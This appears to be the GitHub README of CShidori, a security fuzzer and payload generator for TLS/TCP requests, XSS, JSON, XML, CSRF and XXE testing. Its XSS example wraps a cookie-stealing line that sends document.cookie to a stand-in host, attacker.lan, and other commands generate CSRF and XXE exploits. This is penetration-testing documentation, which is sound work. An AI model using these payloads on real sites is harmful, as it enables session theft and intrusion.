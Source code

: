 # CShidori 

## 1024 Birds Fuzzer

[![License: GPL v3](https://img.shields.io/badge/License-GPLv3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
![.DOTNET](https://github.com/Aif4thah/CShidori/actions/workflows/dotnet.yml/badge.svg?branch=main)
[![contributions welcome](https://img.shields.io/badge/contributions-welcome-brightgreen.svg?style=flat)](https://github.com/dwyl/esta/issues)

**Get Data and Fuzz Your App**

![](Intro.png)

## trophies

* Open Redirect: 1
* IDOR: 1
* XSS: 1
* XXE: 3
* SQLI: 1
* Application Data Leak: 2

## Disclaimer

Usage of all tools on this site for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. We assume no liability and are not responsible for any misuse or damage caused by this site. This tools is provided "as is" without warranty of any kind.

## References

* Taisen: [Website](https://taisen.fr)

* CShidori is part of [SIMPLE project (fr)](https://github.com/Aif4thah/SIMPLE)

* OWASP Web Application Security Testing Guide: [07-Input Validation Testing](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/)

* OWASP Web Application Security Testing Guide: [C-Fuzz Vectors](https://owasp.org/www-project-web-security-testing-guide/v41/6-Appendix/C-Fuzz_Vectors#replacive-fuzzing)

## Fuzzer and Data

### Fuzzer

* TLS Sockets (including HTTPS and other SSL/TLS encapsulated protocols)
* TCP Sockets (TCP layer and OSI 5,6,7 protocols, including HTTP )

### Machine Learning

* CShidori learns and tries to detect vulnerabilities from your fuzzing history
* ML is not miraculous thing, you have to train it for your Apps ;)

### Data Generation Modes 
* Mutation
* XSS
* JSON
* XML
* GET
* CSRF
* XXE
* MSTest
* Encoding
* List Generation

### Payloads

* Chars (default)
* Strings (default)
* DotNet
* Java
* C
* Angular
* JavaScript

## Mutation Fuzzing

### TLS sockets

Put your request in a text file* then start fuzzing with: 

```powershell
.\CShidori.exe -m tls -o ..\testing\ZAP-Post-req.raw -i 127.0.0.1 -p 443
```

You can select data with the "-d" parameter

### TCP Sockets

```powershell
.\CShidori.exe -m tcp -o ..\testing\burp.req -i 127.0.0.1 -p 80
```

#### *how put my Web request in a file ? 
 
	* from ZAP or Burp: right click > copy to file
	* for Chrome: F12 > Network > your request / paylod > view source, copy-past in text file, with a line between request and payload, and "\n" + a new line at the end of the file


### Analyse logs

use the `Import-Csv` cmdlet or the `.\CShidoriLogsViewer.ps1` script. 
You can then parse the logs as powershell objects.

```powershell
. .\CShidoriLogsViewer.ps1
Get-CShidoriLogs .\127-0-0-1-b4e09da3-7e34-46f2-9ce9-6f8b1d3a3019.csv -ResponseMatch "bad" -ExcludeSize 295 -debug   
```

### Speed

1 thread = 110-150 req/s

### Go further with MultiThreading

Edit and execute the `Start-Fuzzing-Function.ps1` script

```powershell
. .\Start-Fuzzing-Function.ps1
Start-Fuzzing
```

## Data Generation

### Mutation

generate 5 mutation (chars and bitflip) for the value "test" :

```powershell
.\CShidori.exe -m mut -o 5 -p test -d Chars
```

### XSS / Injections

wrapp xss command to test multiples injections:

```powershell
.\CShidori.exe -m xss -p 'document.location=\"https://attacker.lan?c=\"+document.cookie'
```

### JSON

Inject java and general payloads in all parameters of a Json request

```powershell
.\CShidori.exe -m json -p ..\testing\test.json -d Java,Strings
```

### XML

Inject .NET payloads in all parameters of an XML request

```powershell
.\CShidori.exe -m xml -p ..\testing\exemple.xml -d DotNet
```

### GET

Inject default payloads in all GET parameters and tests parameters polution

```powershell
.\CShidori.exe -m get -p "?bar=foo&foo=bar"
```

### CSRF

Generate get and post CSRF exploits

```powershell
.\CShidori.exe -m csrf -o get -p http://target.lan -i "name1=value1&name2=value2"
.\CShidori.exe -m csrf -o post -p http://target.lan -i "name1=value1&name2=value2"

```

### XXE

Generate XXE payload

```powershell
.\CShidori.exe -m xxe
```
### MSTEST

Generate Test for Microsoft.VisualStudio.TestTools.UnitTesting (Beta)

```powershell
.\CShidori.exe -m mst -p 'function( \"value1\", 2, FUZZ)' -i FUZZ
```

### Encode

Encode your payload

```powershell
.\CShidori.exe -m enc -p "<script>alert(1)</script>"
```

### List Generation

Generate a payload list

```powershell
.\CShidori.exe -m gen -d Chars,Java
```

## Miscellaneous

### SOAP & XSD

Removed since you can perform it from Visual Studio:
- Merge all XSD files in WSDL file
- Right click on the project and select "Add Service Reference" -> "WCF" -> "enter localPath"
